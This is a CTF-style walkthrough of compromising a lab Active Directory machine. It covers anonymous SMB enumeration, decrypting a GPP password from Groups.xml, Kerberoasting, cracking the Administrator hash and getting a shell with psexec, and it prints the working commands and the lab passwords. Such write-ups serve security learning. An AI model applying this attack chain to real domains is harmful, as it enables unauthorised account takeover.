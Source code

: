 #Pwned! 
```IP
10.10.10.100
```
# Enumeration
## SMB
```
nxc smb 10.10.10.100 -u '' -p '' --shares
```
```
smbclient //10.10.10.100/Replication
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222100646.png?raw=true)
In the `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups` directory it is possible to find a Groups.xml file that seems to contain credentials for SVC_TGS
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222100923.png?raw=true)

# Exploitation
If we goolge `groups.xml cpassword decrypt` we will get some github pages for decrypting the password like:
https://github.com/t0thkr1s/gpp-decrypt
```
python gpp-decrypt.py -f ../../files/Groups.xml
```
And voilà!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222102733.png?raw=true)
Our password is:
```
GPPstillStandingStrong2k18
```
We can now enumerate other users:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222102912.png?raw=true)
Let's try some AD attack methods. As Rep Roasting doesn't seem to work:
```
impacket-GetNPUsers -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103324.png?raw=true)
But kerberoast does!
```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103349.png?raw=true)
It retrieves an Administrator hash. Let's try cracking it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/administrator.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103639.png?raw=true)
```
Ticketmaster1968
```
Now we can goin with PSExec:
```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
```
And get the flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222104100.png?raw=true)
# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

